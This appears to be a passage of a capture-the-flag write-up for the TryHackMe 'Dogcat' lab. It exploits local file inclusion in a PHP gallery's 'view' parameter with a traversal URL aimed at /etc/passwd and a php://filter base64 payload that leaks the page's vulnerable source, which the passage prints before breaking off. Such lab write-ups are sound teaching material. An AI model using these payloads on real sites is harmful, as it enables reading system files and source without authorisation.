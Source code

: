 We are greeted with a webpage about dog and cat pictures. If we click on one of the buttons we get either a picture of a dog or a cat respectively. On first glance there is no obvious entry point we could exploit, but if we have a look at the URL we should notice somehthing.

```bash
http://$IP/?view=dog
```

Once we clicked on a button the URL has a view parameter with “dog” or “cat” assigned. I instantly thought of Local File Inclusion (LFI), so let’s try something:

```bash
http://$IP/?view=..%2F..%2F..%2F..%2F..%2F..%2Fetc/passwd
```

But sadly the developer of the webpage took care of that and checks wether or not “dog” or “cat” is in the value of the view parameter, so once we write “dog” somewhere in the path, we see this:

![](/static/images/Dogcat-TryHackMe/lfi.png)

Apparently warnings were not disabled in the php settings, so we can see that there was an error in the “include()” function. We can also see that the contents of the view parameter are being passed straight into that function, and that they automatically append a .php extension, somewhere in the code.

So what can we do with this information? We need to find a way to exfiltrate information from that webpage. I came accross [this](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/) website. Let’s try this:

![](/static/images/Dogcat-TryHackMe/lfi2.png)

Awesome it worked!

Of course this is still base64, but we can easily decode that online for example [here](https://www.base64decode.org/).<br/>Just to recap, we used this URL:

```bash
http://$IP/?view=php://filter/convert.base64-encode/resource=./dog/../index
```

To show the code of the index page, encoded in base64. If we deocde this, we can see the source code of the index page, which let’s us see what is going on under the hood.

The exfiltrated code:

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
```